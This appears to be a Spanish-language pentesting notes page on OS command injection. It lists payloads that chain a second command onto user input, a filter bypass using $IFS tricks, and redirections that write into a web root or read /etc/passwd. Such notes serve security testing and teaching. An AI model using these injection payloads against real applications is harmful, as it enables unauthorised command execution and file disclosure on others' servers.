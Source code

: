![](/assets/img/commons/Command/terminal10.png) 

## Other Commands Injection/Execution
Dependiendo de  dónde se inyecte la entrada,  es posible que deba  terminar el contexto citado  (usando "o ') antes de los comandos
Recomiendo mucho el uso de  [HackTricks](https://book.hacktricks.xyz/pentesting-web/command-injection) y [PayloadAllTheTHings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection) podemos encontrar diversas maneras de aplicar estas inyecciones, incluso bypesseando algunos filtros de seguridad si en la parte del backend emplea algúna sentencia que nos bloquee la ejecución de nuestros comandos 

```console
#Both Unix and Windows supported
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id #  Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º
ls %0A id # %0A Execute both (RECOMMENDED)

#Only unix supported
`ls` # ``
$(ls) # $()
ls; id # ; Chain commands
ls${LS_COLORS:10:1}${IFS}id # Might be useful

#Not executed but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
``` 
